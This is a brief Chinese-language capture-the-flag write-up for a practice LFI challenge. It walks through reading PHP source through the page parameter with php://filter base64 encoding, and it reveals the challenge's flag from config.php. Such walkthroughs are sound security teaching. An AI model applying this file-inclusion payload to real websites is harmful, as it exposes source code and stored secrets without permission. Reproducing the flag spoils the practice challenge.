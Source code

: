 LFI
===

直接給了一句關鍵提示「There is no second place like 127.0.0.1」
必且嘗試使用功能表上的功能，觀察網址列變化。

```
https://hackme.inndy.tw/lfi/?page=pages/index
https://hackme.inndy.tw/lfi/?page=pages/intro
```

1. 透過檢視原始碼觀察頁面發現有 flag 的連結 `pages/flag`。
```
Can you read the flag?
```
2. 猜想可能讀取的是 PHP，嘗試使用 PHP 偽協議進行讀檔。
```
https://hackme.inndy.tw/lfi/?page=php://filter/convert.base64-encode/resource=pages/flag
```
3. Base64 Decode
```
Q2FuIHlvdSByZWFkIHRoZSBmbGFnPD9waHAgcmVxdWlyZSgnY29uZmlnLnBocCcpOyA/Pj8K
Can you read the flag<?php require('config.php'); ?>?
```
4. 讀取 config.php
```
https://hackme.inndy.tw/lfi/?page=php://filter/convert.base64-encode/resource=pages/config
```
5. Base64 Decode
```
PD9waHAKCiRmbGFnID0gIkZMQUd7WW9vb29vb19MRklfZzAwZF8yY1h4c1hTWVA5RVZMcklvfSI7Cg==
$flag = "FLAG{Yoooooo_LFI_g00d_2cXxsXSYP9EVLrIo}";
```
